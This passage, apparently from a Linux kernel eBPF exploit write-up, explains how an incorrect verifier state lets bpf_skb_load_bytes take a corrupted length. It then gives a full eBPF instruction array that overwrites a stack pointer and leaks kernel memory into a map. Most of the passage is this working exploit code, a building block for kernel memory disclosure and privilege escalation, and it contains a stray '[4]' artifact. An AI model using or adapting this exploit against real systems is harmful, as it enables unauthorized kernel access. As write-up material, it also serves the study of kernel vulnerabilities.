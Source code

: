```c
        BPF_MOV64_IMM(BPF_REG_0, 0),   
        BPF_EXIT_INSN(),
    };
```

## Arbitrary Read

In order to get arbitrary read primitive, we will exploit incorrect value predicted by the verifier. The function `bpf_skb_load_bytes()` is used to load data from the socket into the eBPF program. One of the parameters that is passed to the function is length of the payload we want to copy. In case if the verifier is in an incorrect state (as in our case) we can compromise the length field and write data on the eBPF stack which would not be known by the eBPF verifier.

We can store a pointer on the eBPF stack. The pointer should be a stack pointer which can be seen as "safe" by the eBPF verifier. Then, we can use the `bpf_skb_load_bytes()` function along with the compromised length value to overwrite the stack pointer into a pointer which we want to read. An example can be found below:

```c
struct bpf_insn leak_prog[] = {
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_1),       // r8 = r1, save ctx to r8
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_10),      // r9 = rsp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_9, -0x10),  // r9 = rsp - 0x10

    BPF_MOV64_REG(BPF_REG_1, BPF_REG_10),           // r1 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, -0x18),       // r1 = rbp - 0x18
    BPF_STX_MEM(BPF_DW, BPF_REG_9, BPF_REG_1, 0),   // *(u64 *)(r9) = r1;

[4]

    BPF_MOV32_IMM(BPF_REG_6, 0x2),
    BPF_ALU32_IMM(BPF_ROL, BPF_REG_6, 31),        
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0x8),         
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 0x8),         
    
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_8),             // r1 = ctx
    BPF_MOV64_IMM(BPF_REG_2, 0x10),                  // r2 = offset
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_9),             // r3 = rsp - 0x10
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -0x8),         // r3 = rsp - 0x18
    BPF_MOV64_REG(BPF_REG_4, BPF_REG_6),             // r4 = length
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes),

    BPF_MOV64_REG(BPF_REG_3, BPF_REG_9),             // r3 = rsp - 0x10
    BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_3, 0),    // r3 = *(u64 *)(r3)
    BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_3, 0),    // r3 = *(u64 *)(r3)

    BPF_MOV64_REG(BPF_REG_1, BPF_REG_10),           // r1 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, -0x18),       // r1 = rbp - 0x18
    BPF_STX_MEM(BPF_DW, BPF_REG_1, BPF_REG_3, 0),   // *(u64 *)(r1) = r3; 

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_LD_MAP_FD(BPF_REG_1, mapfd),                                      // r1 = map1 fd
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),                                 // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -8),                                // r2 = fp -8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 1),                                  // key = [r2] = 1;
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),                                 // r3 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -0x18),                             // r3 = rbp - 0x18
    BPF_MOV64_IMM(BPF_REG_4, 0),                                          // r4 = 0
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_update_elem),  // r0 = &map1[1]

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
};
```